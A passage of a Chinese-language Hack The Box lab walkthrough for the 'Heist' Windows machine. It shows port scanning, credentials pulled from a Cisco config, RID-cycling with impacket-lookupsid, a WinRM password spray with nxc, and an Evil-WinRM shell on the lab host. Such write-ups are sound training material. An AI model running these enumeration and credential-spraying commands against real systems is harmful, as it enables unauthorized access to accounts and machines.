 ```yaml
---
title: Heist
weight: 201
tags:
  - windows
  - easy
  - winrm
  - rid-cycling
---
```


## 00. 摘要



### 1. 信息收集

> [!note]
> 机器ip：10.10.10.149
> 攻击机ip：10.10.14.6


```
PORT      STATE SERVICE      REASON
80/tcp    open  http         syn-ack
135/tcp   open  msrpc        syn-ack
445/tcp   open  microsoft-ds syn-ack
5985/tcp  open  wsman        syn-ack
49669/tcp open  msrpc        syn-ack
```


[[80,443 - Web]] 探索一番，发现有一个 `Hazard` 用户在向 Support 寻求帮助。从他发的附件文件里面，收集到以下账户密码：

[Cisco Type 7 Password Decrypt / Decoder / Crack Tool](https://www.firewall.cx/cisco/cisco-routers/cisco-type7-password-crack.html)

```
Hazard: stealth1agent
rout3r: $uperP@ssword
admin: Q4)sJu\Y8qz*A3?d
```


```bash
┌──(kali㉿kali)-[~/Documents/01-HackTheBox/01-Machines/Heist]
└─$ impacket-lookupsid 'Hazard':'stealth1agent'@'10.10.10.149'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at 10.10.10.149
[*] StringBinding ncacn_np:10.10.10.149[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4254423774-1266059056-3197185112
500: SUPPORTDESK\Administrator (SidTypeUser)
501: SUPPORTDESK\Guest (SidTypeUser)
503: SUPPORTDESK\DefaultAccount (SidTypeUser)
504: SUPPORTDESK\WDAGUtilityAccount (SidTypeUser)
513: SUPPORTDESK\None (SidTypeGroup)
1008: SUPPORTDESK\Hazard (SidTypeUser)
1009: SUPPORTDESK\support (SidTypeUser)
1012: SUPPORTDESK\Chase (SidTypeUser)
1013: SUPPORTDESK\Jason (SidTypeUser)

```

```bash
┌──(kali㉿kali)-[~/Documents/01-HackTheBox/01-Machines/Heist]
└─$ nxc winrm 10.10.10.149 -u username.list -p password.list  
WINRM       10.10.10.149    5985   SUPPORTDESK      [+] SupportDesk\Chase:Q4)sJu\Y8qz*A3?d (Pwn3d!)
```


```bash
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```


